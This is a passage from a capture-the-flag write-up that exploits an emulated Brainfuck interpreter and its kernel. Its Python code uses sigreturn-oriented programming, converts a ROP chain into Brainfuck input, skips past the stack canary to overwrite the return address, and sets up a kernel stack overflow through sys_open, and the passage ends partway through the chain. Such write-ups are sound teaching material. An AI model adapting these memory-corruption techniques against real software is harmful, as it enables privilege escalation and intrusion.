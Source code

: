 I first created a helper `srop` function (the idea for this was taken from jinmo's exploit). I also wrote a helper function that converts our ROP chain into brainfuck code:

```python
userland_ret_addr = 0x7fffffffdfa8 # Always constant in the emulator

# SigReturn Oriented Programming                                                
# `srop_idx` is the current srop frame's index. The index starts at 1 for the   
# first frame, and increases by 1 for every subsequent frame. It lets us set    
# RSP to right after each frame so we can continue ropping as needed
def srop(syscall, rip, arg1, arg2, arg3, srop_idx):                             
    # Set up frame                                                              
    frame = SigreturnFrame()                                                    
    frame.rax = syscall                                                         
    frame.rdi = arg1                                                            
    frame.rsi = arg2                                                            
    frame.rdx = arg3                                                            
                                                                                
    # Our final sropchain will be 3 * 8 bytes + len(frame), so we set RSP to       
    # After this, so that the next `ret` instruction will return into our new   
    # input that is after the frame                                             
    frame.rsp = userland_ret_addr + srop_idx * len(frame) + 0x18                
    frame.rip = rip                                                             
                                                                                
    return frame

# Convert a ropchain into bf code                                               
# +[,>,] is used to loop and overwrite past the return address, so we just have 
# to write each byte followed by a non-null byte to continue looping.           
# We end our loop when we're finished by inserting two null bytes which stops   
# the loop.                                                                     
def bf_rop(ropchain):                                                           
    final = b""                                                                 
                                                                                
    for byte in ropchain:                                                       
        final += bytes([byte]) + b"\x01"                                        
                                                                                
    return final
```

The reason for adding `0x18` when setting `frame.rsp` will become evident soon.

Next, our plan is to get to the return address on the userland stack, and then overwrite it with our SROP chain. We need to first do a `sys_read` to read our filename (basically kernel stack buffer overflow payload) into some memory region. Then, we need to do a `sys_open` syscall to trigger the kernel stack buffer overflow bug. The following code does just that:

```python
syscall_ret = 0x400cf2
pop_rax = 0x400121

# This address is mapped in both the kernel and the userland, so we use this    
# to store any input that needs to be shared between them                       
shared_buf = 0x7fffffeff000

# Userland: loop until p_data_ptr points to return address                      
bf  = b"+[>,]" # Skip until right before canary                                 
bf += b">"*0x12 # Skip past canary and saved rbp                                
bf += b"+[,>,]" # Start overwriting return address                              
bf += b"!"                                                                      
bf += b"\x01"*(4101) + b"\x00" # Enough 0x1 bytes to get to ret addr, then stop 
                                                                                
# Now starts our ropchain in userland.                                          
# First we read a big filename into the shared buffer. This will trigger the    
# bof in sys_open in the kernel                                                 
frame1 = srop(0, syscall_ret, 0, shared_buf, len(krop1), 1)                     
```